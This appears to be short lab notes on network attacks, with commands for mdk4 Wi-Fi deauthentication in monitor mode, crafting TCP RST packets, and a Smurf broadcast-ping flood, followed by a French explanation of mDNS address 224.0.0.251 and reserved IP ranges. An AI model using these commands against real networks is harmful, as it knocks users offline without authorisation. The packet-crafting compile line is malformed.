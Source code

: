 # Dauth Frames
## Install mdk4
- `sudo apt-get install mdk4`

## Setup an interface in monitor mode
- `sudo airmon-ng start <interface>`
- If an error occurs, kill the process: `sudo airmon-ng check kill`
- `iwconfig` should show a new interface: `<interface>mon`
- The attack will be done on this interface

## Execute Dauth Attack
- `sudo mdk4 <interface> d -w <file> -c <channel>`
  - `file`: WhiteList MAC address
  - `channel`: Channel of the AP (remove `-c <channel>` for an attack on all channels)

## Crafting Packet
- Use `g++ -o rst_packet rst_packet.cpp <ipSrc> <ipDst>` (use valid IP addresses for `ipSrc` and `ipDst`)
- Check if reset packets are detected by the sniffer (RST Flag: ...)

## SMURF Attack
- `ping -b <broadcast ip> -c <number of packets> <ip to ping>`
- Or just `ping <ip>`

# 224.0.0.251

L'adresse IP 224.0.0.251 est une adresse IP multicast réservée à l'utilisation du protocole de découverte de services Zeroconf (Zero Configuration Networking), également connu sous le nom de mDNS (multicast DNS). Le mDNS permet aux appareils sur un réseau local de découvrir et de se connecter les uns aux autres sans configuration préalable. Cette adresse IP est utilisée pour la résolution de noms de domaine locaux sans avoir besoin d'un serveur DNS central.

En d'autres termes, lorsqu'un appareil sur le réseau local recherche d'autres appareils ou services, il peut diffuser des requêtes multicast à l'adresse IP 224.0.0.251 pour découvrir les services disponibles sur le réseau sans nécessiter une infrastructure DNS traditionnelle. Cela est couramment utilisé dans les réseaux domestiques et locaux pour faciliter la découverte automatique des appareils et des services sans configuration manuelle.

## Adresses IP Réservées
Oui, il existe plusieurs plages d'adresses IP réservées à des utilisations spécifiques, telles que des services particuliers, des protocoles de communication spécifiques, ou des usages réservés à des fins particulières. Voici quelques exemples :

1. **Adresse IP de bouclage (Loopback):**
   - `127.0.0.1` est l'adresse IP de bouclage standard, également connue sous le nom de "localhost". Elle est utilisée pour les tests de réseau sur la machine locale.

2. **Adresses IP privées:**
   - `10.0.0.0` à `10.255.255.255`
   - `172.16.0.0` à `172.31.255.255`
   - `192.168.0.0` à `192.168.255.255`
   Ces plages d'adresses sont réservées pour une utilisation dans les réseaux privés et ne sont pas routées sur Internet.

3. **Adresses IP multicast:**
   - Diverses adresses IP de la plage `224.0.0.0` à `239.255.255.255` sont réservées pour le multicast. Par exemple, `224.0.0.1` est utilisée pour toutes les hôtes sur le réseau local, `224.0.0.2` est utilisée pour tous les routeurs sur le réseau local, etc.

4. **Adresse IP de diffusion (Broadcast):**
   - `255.255.255.255` est utilisée pour envoyer des données à tous les appareils sur le réseau local.

5. **Adresses IP spéciales pour les protocoles réservés:**
   - `0.0.0.0` est utilisée comme adresse indiquant "toutes les adresses" ou "tous les hôtes".
   - `169.254.0.0` à `169.254.255.255` est réservée pour l'auto-configuration d'adresses IP sur un réseau local en l'absence de serveur DHCP.

Ces adresses IP réservées contribuent à organiser et à optimiser le fonctionnement d'Internet et des réseaux locaux en définissant des plages spécifiques pour des fins spécifiques.
